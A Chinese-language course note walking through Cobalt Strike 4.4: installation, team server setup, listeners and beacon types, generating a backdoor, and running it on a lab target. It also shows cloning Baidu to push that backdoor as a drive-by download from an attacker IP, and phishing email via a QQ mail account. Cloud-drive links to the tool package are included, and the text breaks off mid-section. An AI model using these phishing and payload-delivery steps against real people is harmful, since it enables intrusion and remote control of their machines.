# **以最新笔记为准**

笔记实时更新地址： http://cloud.fynote.com/d/5778

第12段中使用的所有程序下载地址

链接：https://pan.baidu.com/s/1Z-5d_R_EptCkwdwaaVJ2Mg?pwd=8888
提取码：8888
--来自百度网盘超级会员V4的分享

# 1 Clbalt Strike的特点

Clbalt Strike简称CS 用于团队作战使用，由一个服务端和多个客户端组成，能让多个攻击者这在一个团队服务器上共享目标资源和信息

CS有很多Payload的生成模块 可以生成EXE，dll，vbs，图片马，bad，vba宏，和shellcode等等

CS还支持钓鱼攻击，可自动化挂马链接生成

CS还有很多后渗透模块，浏览器代理模块，端口转发 扫描，提权，socks代理 ，令牌窃取等

Clbalt Strike 分为服务端和客户端

服务端 可以部署在远程服务器下或者 部署在kaili里

客户端 可以部署到本地  支持linux和windows系统


# 2 Clbalt Strike 安装与环境配置（kali）

准备环境 ：

CS4，4

下载地址 ： 链接：https://pan.baidu.com/s/1Nh4IX4s2BmN8ds41_v7F8Q?pwd=8888   提取码：8888

jdk11（如果使用kali 则不需要另外安装jdk）

## 2.1 其他linux系统安装jdk

使用 APT 安装 OpenJDK 11：

#### 1 升级APT

sudo apt-get update

或

apt-get update

#### 2 使用 APT 安装 OpenJDK 11：

sudo apt-get install openjdk-11-jdk

或

apt-get install openjdk-11-jdk

	

切换java 11的版本

	

	

#### 3 将 OpenJDK 11 设置为默认 Java 程序：

sudo update-java-alternatives -s java-1.11.0-openjdk-amd64

或

update-java-alternatives -s java-1.11.0-openjdk-amd64

# 2.2 开始安装

Clbalt Strike 4.4 安装包

将CS4.4解压


创建一个目录去存解压文件


给服务的启动文件赋 777权限

进入终端找到CS4目录  然后 chmod 777 teamserver   （注意我这边是使用root终端操作的）


完成环境配置

# 3 Clbalt Strike 安装与环境配置（Windows）

## 3.1 下载Windows x64 OpenJDK：https://jdk.java.net/archive/


然后解压并找个位置放这个  jdk-11.0.1  注意路径最好不要有中文。


我这边把jdk-11.0.1放到E盘根目录

## 3.2 环境变量配置


进入CMD  输入  java -version


# 4 Cobalt Strike下载地址

Cobalt Strike 更新日志 https://download.cobaltstrike.com/releasenotes.txt

Cobalt Strike 4.4下载地址 链接：https://pan.baidu.com/s/1eHENxQAeA5V9GHoNj_dh0w?pwd=8888
提取码：8888   解压密码：www.mashibing.com

# 5 Cobalt Strike团队服务器启动

打开root终端进入CS 目录

在终端中输入： ./teamserver+服务器ip+密码

解释


看到这个提示证明已经启动完成

	

到此CS服务器启动完成了

# 6 Cobalt Strike客户端连接到团队服务（Linux）

进入CS目录


然后输入 ./cobaltstrike  即可


第一次使用CS会提示权限不够


我们可以直接给cobaltstrike 赋777权限,然后在启动即课

终端内输入 chmod 777 cobaltstrike

	

启动CS完成后根据服务器配置输入IP ，端口，用户名(可以自定义)，密码(123456)

	

看到提示点击  Yes即可


稍等片刻即可启动完成 （如果电脑较卡启动时间会稍微有点长多等一下）


# 7 Cobalt Strike客户端连接团队服务（Windows）

**注意Cobalt Strike这款软件最好在虚拟机内执行避免后门反噬主机**

解压CS安装包


启动方法1 直接管理员方式执行 cobaltstrike.bat

启动方法2 在CMD中运行，注意CMD也要管理员权限


启动CS完成后根据服务器配置输入IP ，端口，用户名，密码


看到服务器指纹确认点Yes  服务器指纹应与服务启动时一样


---

# 8 Cobalt Strik功能介绍


图标栏功能说明

1 添加新的 Cobalt Strik 团队服务器

2 删除当前 Cobalt Strik 团队服务器

3 新建一个监听器

4 切换图形会话按钮

5 切换列表会话按钮

6  以列表方式显示目标

7 密码凭证栏按钮

8 下载文件列表

9 键盘记录表

10 屏幕截图表

11 生成Windows下可执行木马

12 生成java签名applet攻击

13 生成office 宏攻击

14 生成powershell后门

15  文件托管按钮

16 管理web站点

17 帮助文档

18 关于

# 9  创建一个监控

## **9.1 监控器链接方式简介**

beacon是cs内置的监听器，当我们在目标机器上成功执行Payload后，会返回一个shell发送到cs上。

**Foreign Listener** 是 Cobalt Strike 提供的一种机制，允许 Beacon 与其他的渗透测试工具协同工作，例如 Metasploit Framework（MSF）。这使得 CS 可以接收从外部工具派生的 shell，从而进行后续的控制和操作。

**External C2** 是 Cobalt Strike 引入的一种框架或规范，允许用户定义自定义的 C2 通道，不再局限于默认的 HTTP、HTTPS、DNS、SMB、TCP 等协议。

External C2，包括如下组件：

* 第三方控制端（Controller）：负责连接 Cobalt Strike TeamServer，并且能够使用自定义的 C2 通道与目标主机上的第三方客户端（Client）通信。
* 第三方客户端（Client）：使用自定义C2通道与第三 Controller 通信，即黑客使用客户端访问服务端，通过服务端将命令转发至 SMB Beacon。
* SMB Beacon：在受害者主机上执行的标准 beacon。

点击菜单中的监听器，然后点击add添加监听器，输入名字和http host的ip地址(攻击机地址)，于是点击save保存。

	

点击attack，生成后门文件，并选择我们创建的监听器。

	

点击save保存到root目录下，然后传到靶机运行。

	

当win10靶机运行后门文件后，就会被cobalt strike记录，接下来就可以后渗透了。

	

## **9.2 Beacon分类**

**Beacon是Cobalt Strike运行在目标主机上的payload，Beacons是在隐蔽信道上给我们提供服务，用于长期控制受感染主机** 。它的工作方式与Metasploit类似。在实际渗透过程中，我们可以将其 **嵌入到可执行文件** 、**添加到Word文档**或者通过**利用主机漏洞**来传递Beacon。

1. DNS Beacon
2. HTTP 和 HTTPS Beacon
3. SMB Beacon
4. TCP Beacon

## 9.2.1 DNS Beacon

**DNS Beacon** 是 Cobalt Strike 中的一种 Beacon 通信方式，使用 DNS 协议与 Cobalt Strike 的 C2（Command and Control）服务器进行通信。它利用 DNS 查询的隐蔽性和广泛的网络适用性，使攻击者能够绕过网络安全设备的检测，进行隐蔽的数据传输和命令执行。

注意：

在CS 4.0及之后的版本中，DNS Beacon是一个仅DNS的Payload，在这个Payload中没有HTTP通信模式

DNS Beacon优点：

拥有更高的隐蔽性，但是速度相对于HTTP Beacon会更慢。

主要流程:靶机通过查询本地dns服务器获取到cobalt strike服务端的ip地址，于是去访问，然后cobalt strike客户端，即可开始渗透控制这个靶机。


# 9.2.2  HTTP 和 HTTPS Beacon

**HTTP Beacon** 和 **HTTPS Beacon** 是 Cobalt Strike 中最常用的 Beacon 类型之一，它们通过 HTTP 和 HTTPS 协议与 Cobalt Strike 的 Command and Control (C2) 服务器进行通信。由于 HTTP/HTTPS 是网络上最常见的通信协议之一，攻击者可以借助这些协议进行隐蔽的数据传输和远程控制

对于http beacon来说，Beacon 会周期性地向 C2 服务器发送 HTTP 请求，这些请求看似合法的普通流量（例如 GET 或 POST 请求），但实际上其中隐藏了数据。C2 服务器通过响应这些请求，将命令嵌入到 HTTP 响应中，Beacon 解析这些响应，并执行相应的命令。

HTTPS Beacon 与 HTTP Beacon 类似，但由于 HTTPS 的加密特性，所有通信内容都会通过 TLS 加密，从而增加了安全性和隐蔽性。加密使得网络安全设备难以深度检测和分析 Beacon 的通信内容，提供了额外的一层隐蔽性。


# 9.2.3  SMB Beacon

**官网的解释为** ：*SMB Beacon 使用命名管道通过父 Beacon 进行通信，这种点对点通信借助 Beacons 在同一台主机上实现，它同样也适用于外部的互联网。Windows 当中借助在 SMB 协议中封装命名管道进行通信，因此，命名为 SMB Beacon。*

以上的说法，其实就是将 `Payload` 运行（注入）后，创建了自定义命名管道（作服务端），等待连接即可。

**SMB Beacon** 是 Cobalt Strike 中的一种特殊 Beacon 类型，通过 **SMB（Server Message Block）协议**进行通信。这种 Beacon 主要用于在内网中进行横向移动和隐蔽通信，特别是在受害者网络内部传播时非常有效。

**SMB 协议**：SMB 是一种应用层网络文件共享协议，常用于 Windows 网络环境中实现文件共享、打印服务、网络浏览和其他网络服务。SMB 协议使用 TCP 445 端口在网络中传输数据，是内网中常见的通信协议。

SMB Beacon 利用 SMB 协议的消息传递能力，在没有直接访问互联网的情况下，通过内网主机之间的 SMB 通信来实现命令和控制。通常，SMB Beacon 是通过在受害者主机上植入 Beacon 后，通过 SMB 协议与其他受感染主机（即其他 Beacon 节点）进行通信，而不需要直接连接到外部的 C2 服务器。


## 9.2.3  TCP Beacon

TCP Beacon和SMB Beacon类似只不过TCP Beacon不是使用SMB与父Beacon进行通信而是使用TCP socket进行通信，cs4.0之后，这个技术就不适合做第一个木马使用，因为他的流量都是明文的，容易被发现但是这个技术，很适合在内网穿透的时候去使用，在内网穿透的时候一般只能使用tcp beacon去生成木马。

点击或 点击监听器


# 10  Cobalt Strik 目标主机信息收集

Cobalt Strik内置信息收集模块 可以收集 目标主机的操作系统版本 系统位数  浏览器  版本  位数

方便攻击者针对性攻击


点击attack里面，配置信息收集  有4个参数可以设置  分别为 本地URL   本地Host  本地端口  跳转URL

本地URL    配置的参数是访问ip后面的参数

本地Host   是当前Cobalt Strik服务器的内网或公网IP

本地端口    默认是80  如果80被占用了就需要设置其他的 如 81  82  83 都可以

跳转URL    默认可不设置跳转，当访问完该网页，会进行跳转。

设置信息收集的网站，本地url加上localhost就，其实就是访问192.168.15.141:81/。

	

	

此时若靶机去访问。则该靶机的相关信息将会被记录下来。

	

于是通过view菜单里面，点击web log即可查看，该主机是win10，并且使用edge游览器访问。

	

# 11 Cobalt Strik 克隆网页并挂马

克隆网页


## 1 配置网站克隆

```
网站克隆的一些属性设置
克隆URL  输入http网站链接
本地URL    配置的参数是访问ip后面的参数
本地Host   是当前Cobalt Strik服务器的内网或公网IP
本地端口    默认是80  如果80被占用了就需要设置其他的 如 81  82  83 都可以
攻击地址 ： 默认不配置
```

点击attack，先创建挂马文件，其中的file就设置为之前创建好的后门文件，然后点击launch

		

复制这段url

```
http://192.168.15.141:80/download/file.exe
```

		

接下来克隆网站，这里克隆百度，并把该挂马配置到克隆网站上。

把复制的挂马文件url粘贴到attack中。

	

	

此时访问网页的同时，也会把挂马文件下载到本地。

	

# 12  Cobalt Strike 邮件钓鱼

1 准备一个邮箱用于发送邮件

首先给自己先发送一个邮箱。

	

点击导出eml邮件模板文件。

	

这边拿QQ邮箱为例  点击设置然后点击 账户


找到 IMAP/SMTP服务 点击开启服务 获取 授权码  （获取后把这个授权码先记录下来）


然后回到CS中  进入邮件钓鱼


邮件钓鱼配置参数如下

目标 ：这里指的是接收邮件的号码

模板：邮件的格式个内容

附件： 可以加入后门程序或其他 或者不加

嵌入URL : 可以选择配置好的网站放进去

target是要发送邮箱的目标，把txt文件导入即可，这个txt文件自己写两个邮箱即可。

template就是刚刚自己制作导出的eml邮箱模板文件。

embed URL是嵌入一个克隆挂马的网站。

Mail Server进行设置，密码就是qq邮箱自己获取的授权码，账号就是邮箱名。其他按照默认写法即可。

邮件服务器：

	

Bounce To退信通知邮箱，填自己邮箱即可。

	

所有参数配置完成后 点击 Send 发送邮件即可，于是就受到邮箱，当点击这个链接，就会进入克隆的百度网站，并且自动下载恶意的后门文件。

	

# 12 将MSF会话注入Cobalt Strik监控

## 1 环境准备：

1 kali操作系统

2 Cobalt Strik 服务端和客户端

3 一个在MSF下拿到权限的靶机

这里我们把kali当作cs的服务端和客户都安，并且也拿来当作msf监控。

## 2 配置MSF创建监听

2.1 使用msf创建后门

